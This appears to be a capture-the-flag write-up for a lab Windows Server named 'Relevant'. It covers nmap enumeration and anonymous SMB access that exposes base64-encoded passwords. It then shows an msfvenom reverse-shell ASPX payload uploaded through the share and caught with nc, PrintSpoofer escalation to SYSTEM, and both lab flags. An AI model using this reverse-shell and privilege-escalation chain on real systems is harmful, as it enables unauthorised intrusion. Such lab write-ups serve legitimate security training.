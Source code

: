 # Relevant

LHOST	10.8.127.74
RHOST	10.10.30.177

## Enumeration

### nmap

scanning all host's ports

```bash
root@thm:~/relevant# nmap -p- 10.10.30.177
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-29 08:19 UTC
Nmap scan report for 10.10.30.177
Host is up (0.10s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
```

further scanning using default scripts and version scan

```bash
root@thm:~/relevant# nmap -sC -sV -p 80,135,139,445,3389,49663,49667,49669 10.10.30.177
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-29 08:27 UTC
Nmap scan report for 10.10.30.177
Host is up (0.15s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-09-29T08:28:27+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-09-28T07:32:52
|_Not valid after:  2022-03-30T07:32:52
|_ssl-date: 2021-09-29T08:29:07+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-29T01:28:29-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-09-29T08:28:30
|_  start_date: 2021-09-29T07:33:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.43 seconds
```

### smbclient

```bash
root@thm:~/relevant# smbclient -L 10.10.30.177
Enter WORKGROUP\GUEST's password:

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
nt4wrksv        Disk
SMB1 disabled -- no workgroup available
```

```bash
root@thm:~/relevant# smbclient \\\\10.10.30.177\\nt4wrksv
Enter WORKGROUP\GUEST's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Sat Jul 25 21:46:04 2020
..                                  D        0  Sat Jul 25 21:46:04 2020
passwords.txt                       A       98  Sat Jul 25 15:15:33 2020

				7735807 blocks of size 4096. 4945729 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

download password.txt file

```txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

The passwords are encoded with base64, after decodeing we get bob and bill passwords

```txt
[User Passwords - Decoded]
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### gobuster

No directory was found using gobuster.

## Exploit

On the port 49663 of the IIS server, the directory nt4wrksv seems to map server's files. We can upload a file and run a reverse shell.

First we generate a reverse shell using msfvenom then we upload it with smbclient and listen for the incoming connexion.

```bash
root@thm:~/relevant# msfvenom -p windows/x64/shell_reverse_tcp LHOST="10.8.127.74" LPORT=1337 --platform windows -a x64 -f aspx > shell.aspx
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3403 bytes
```

```bash
root@thm:~/relevant# smbclient \\\\10.10.30.177\\nt4wrksv
Enter WORKGROUP\GUEST's password:
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (5.6 kb/s) (average 5.6 kb/s)
```

```bash
root@thm:~/relevant# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.8.127.74] from (UNKNOWN) [10.10.30.177] 49768
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

navigating to bob's desktop we found the first flag user.txt 

```
C:\Users\Bob\Desktop>type root.txt
type root.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

```bash
c:\Users>systeminfo
systeminfo

Host Name:                 RELEVANT
OS Name:                   Microsoft Windows Server 2016 Standard Evaluation
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00378-00000-00000-AA739
Original Install Date:     7/25/2020, 7:56:59 AM
System Boot Time:          9/29/2021, 1:48:10 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
    [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
    BIOS Version:              Xen 4.11.amazon, 8/24/2006
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
    Total Physical Memory:     512 MB
    Available Physical Memory: 99 MB
    Virtual Memory: Max Size:  1,536 MB
    Virtual Memory: Available: 748 MB
    Virtual Memory: In Use:    788 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
    [01]: AWS PV Network Device
    Connection Name: Ethernet 2
    DHCP Enabled:    Yes
    DHCP Server:     10.10.0.1
    IP address(es)
    [01]: 10.10.30.177
    [02]: fe80::41c9:1021:83cf:7a4f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

We can note that this machine is a virtual machine using xen and running windows server 2016.

In order to escalate privilages, I used PrintSpoofer abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.


[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

First I uploaded the exploit to `nt4wrksv` then run the exploit from the server to get admin shell

```bash
root@thm:~/relevant# smbclient \\\\10.10.30.177\\nt4wrksv
Enter WORKGROUP\GUEST's password:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (20.6 kb/s) (average 20.6 kb/s)
```

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd.exe
PrintSpoofer64.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

then we find the second flag on administrator directory.

```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```

